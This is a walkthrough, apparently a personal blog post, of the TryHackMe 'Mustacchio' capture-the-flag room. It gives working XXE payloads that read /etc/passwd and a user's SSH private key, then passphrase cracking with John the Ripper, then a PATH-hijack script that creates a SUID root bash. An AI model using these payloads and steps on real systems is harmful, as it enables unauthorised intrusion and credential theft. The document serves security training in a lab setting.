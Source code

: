 ```yaml
---
slug: mustacchio
title: Mustacchio CTF
authors: [hueami]
tags: [tryhackme, ctf, xee, lpe]
comments: true
---
```


## Solving the Mustacchio Room on TryHackMe

This post details a comprehensive walkthrough of identifying and exploiting vulnerabilities within the as 'easy' tagged Mustacchio room on TryHackMe. The objective is to systematically enumerate services, exploit found vulnerabilities for initial access, escalate privileges, and capture flags, providing a technical perspective on ethical hacking practices.

### Initial Enumeration with Nmap

The initial step involved conducting a network scan using `nmap` to enumerate open ports and available services on the target:

```bash
nmap [target IP] -p0-
```

This scan identified several open ports:
```bash
22/tcp for SSH
80/tcp for HTTP
8765/tcp for ultraseek-http
```

### Discovering Hidden Resources with Feroxbuster

Subsequently, `feroxbuster` was employed to aggressively search for hidden directories and files, revealing a notable file: `users.bak`.

```bash
feroxbuster -u http://[target IP] -w ~/security/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

### Extracting Credentials

The `users.bak` file uncovered by `feroxbuster` contained what seemed to be user credentials:

`admin1868e36a6d2b17d4c2745f1659433a**********`

I utilized the password-cracking service [CrackStation](https://crackstation.net/) to decrypt the obscured password.

### Exploiting XXE to Gain Initial Access

Navigating to `http://10.10.3.119:8765`, I utilized the credentials previously discovered in `users.bak` to log in, unveiling a form designed for posting comments. Upon submission, the form presents a preview showcasing fields for Name, Author, and Comment, which intriguingly populate only when an XML containing corresponding tags is supplied. This peculiar behavior hinted at the potential for XML External Entity (XXE) exploitation.

Leveraging this insight, I crafted an XML payload aiming to probe for XXE vulnerabilities by attempting to fetch system files. The first payload sought to retrieve the `/etc/passwd` file to obtain possible users for ssh login:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<comment>
    <name>&file;</name>
</comment>
```

This yielded promising results, disclosing several user accounts, notably `joe` and `barry`.

To further exploit this avenue, a subsequent XML payload targeted the retrieval of SSH keys for these users. It became apparent that while Joe lacked an SSH key, Barry possessed one:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [ <!ENTITY file SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
    <name>&file;</name>
</comment>
```

However, the ssh key was secured with a passphrase, necessitating its decryption. Using the tools `ssh2john` and `john the ripper` alongside the famous `rockyou.txt` wordlist, I cracked the passphrase.

```bash
python /opt/homebrew/Cellar/john-jumbo/1.9.0_1/share/john/ssh2john.py ~/security/temp/id_barry.rsa > id_rsa_barry_hash

john --wordlist=~/security/wordlists/rockyou.txt ~/security/temp/id_rsa_barry_hash
```

With the decrypted key, I successfully SSH'd into the system as Barry:

```bash
ssh -i id_rsa_barry barry@[target IP]
```

Upon gaining access, I found the user flag.

### Privilege Escalation

For privilege escalation, I sought files with the SUID bit set, which could be exploited to gain elevated privileges. When a file with SUID bit has the owner `root`, the file is executed with `root`'s privileges, regardless of the user who executed the file:

```bash
find / -perm -u=s -type f 2>/dev/null
```

An intriguing file, `/home/joe/live_log`, was identified, with SUID flag set and the owner `root``. Analyzing it with `strings /home/joe/live_log` suggested it executed another program, `tail`, without an absolute path. This was exploitable via a path injection:

To exploit this, I created a malicious `tail` script, intending to copy the system's `tail` binary and obtain root's privileges by also setting the SUID bit:

```bash
#!/bin/bash
cp /bin/bash /tmp/bash
chmod 4777 /tmp/bash
```

By adjusting the `PATH` to prioritize the current directory, the system executed my malicious script instead of the legitimate `tail`:

```bash
export PATH=`pwd`:$PATH
```

Executing `/home/joe/live_log` then invoked my script, creating a SUID bash shell in `/tmp/bash`, which granted a root shell when run with the `-p` flag:

```bash
/tmp/bash -p
```

Accessing `/root/root.txt`, I captured the root flag, completing the privilege escalation process.

### Conclusion

This walkthrough of the Mustacchio room on TryHackMe highlights the criticality of detailed reconnaissance, methodical exploitation, and privilege escalation in cybersecurity. The tools and methodologies discussed, including `nmap`, `feroxbuster`, and the exploitation of XXE and SUID binaries, are essential for cybersecurity practitioners. This experience underscores the ongoing need for vigilance and ethical hacking skills in securing systems.

Engage with curiosity, continue learning, and uphold ethical hacking standards.